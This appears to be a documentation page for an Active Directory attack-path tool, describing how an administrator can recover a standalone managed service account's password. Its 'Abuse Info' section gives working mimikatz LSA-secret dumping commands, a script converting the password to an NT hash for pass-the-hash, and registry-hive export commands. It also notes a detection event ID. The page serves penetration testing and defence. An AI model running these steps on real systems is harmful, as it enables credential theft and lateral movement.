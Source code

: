 ---
title: DumpSMSAPassword
description: "A computer with this indicates that a Standalone Managed Service Account (sMSA) is installed on it."
---

<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


An actor with administrative privileges on the computer can retrieve the sMSA’s password by dumping LSA secrets.

## Abuse Info

From an elevated command prompt on the computer where the sMSA resides, run mimikatz then execute the following commands:

```bash
privilege::debug
token::elevate
lsadump::secrets
```

In the output, find _\_SC\_\{262E99C9-6160-4871-ACEC-4E61736B6F21}__ suffixed by the name of the targeted sMSA. The next line contains _cur/hex :_ followed with the sMSA’s password hex-encoded.

To use this password, its NT hash must be calculated. This can be done using a small python script:

```bash
# nt.py
import sys, hashlib

pw_hex = sys.argv[1]
nt_hash = hashlib.new('md4', bytes.fromhex(pw_hex)).hexdigest()

print(nt_hash)
```

Execute it like so:


```bash
python3 nt.py 35f3e1713d61...
```

To authenticate as the sMSA, leverage pass-the-hash.

Alternatively, to avoid executing mimikatz on the host, you can save a copy of the _SYSTEM_ and _SECURITY_ registry hives from an elevated prompt:


```bash
reg save HKLM\SYSTEM %temp%\SYSTEM & reg save HKLM\SECURITY %temp%\SECURITY
```

Transfer the files named _SYSTEM_ and _SECURITY_ that were saved at _%temp%_ to another computer where mimikatz can be safely executed.

On this other computer, run mimikatz from a command prompt then execute the following command to obtain the hex-encoded password:

```bash
lsadump::secrets /system:C:\path\to\file\SYSTEM /security:C:\path\to\file\SECURITY
```

## Opsec Considerations

Access to registry hives can be monitored and alerted via event ID 4656 (A handle to an object was requested).

## References

* [https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html](https://simondotsh.com/infosec/2022/12/12/assessing-smsa.html)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets)
* [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
